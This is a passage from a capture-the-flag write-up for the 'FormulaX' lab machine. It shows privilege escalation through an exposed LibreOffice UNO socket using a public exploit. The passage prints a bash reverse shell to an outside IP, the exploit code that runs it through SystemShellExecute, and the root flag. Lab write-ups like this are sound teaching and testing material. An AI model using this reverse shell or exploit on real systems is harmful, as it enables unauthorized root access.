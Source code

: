 ![Writeup-13.png](/assets/images/Machines/FormulaX/Writeup-13.png)

![Writeup-14.png](/assets/images/Machines/FormulaX/Writeup-14.png)

After googling `soffice` exploits we end up on: [https://www.exploit-db.com/exploits/46544](https://www.exploit-db.com/exploits/46544)

```bash
kai_relay@formulax:/tmp$ cat rev
#!/bin/bash
/bin/bash -i >& /dev/tcp/10.10.16.75/4444 0>&1
kai_relay@formulax:/tmp$ chmod u+x rev
kai_relay@formulax:/tmp$ tail exp.py
print("[+] Connecting to target...")
context = resolver.resolve(
        "uno:socket,host={0},port={1};urp;StarOffice.ComponentContext".format(args.host,args.port))

# Issue the service manager to spawn the SystemShellExecute module and execute calc.exe
service_manager = context.ServiceManager
print("[+] Connected to {0}".format(args.host))
shell_execute = service_manager.createInstance("com.sun.star.system.SystemShellExecute")
shell_execute.execute('/tmp/rev', '',1)

kai_relay@formulax:/tmp$ python3 exp.py --host 0 --port 2002 # Connect to local instance
[+] Connecting to target...
[+] Connected to 0
```

Catch the shell and gain root.
#### Root.txt

```bash
root@formulax:~# cat root.txt
e2fadc7fb844028b0cd37d96de7be682
```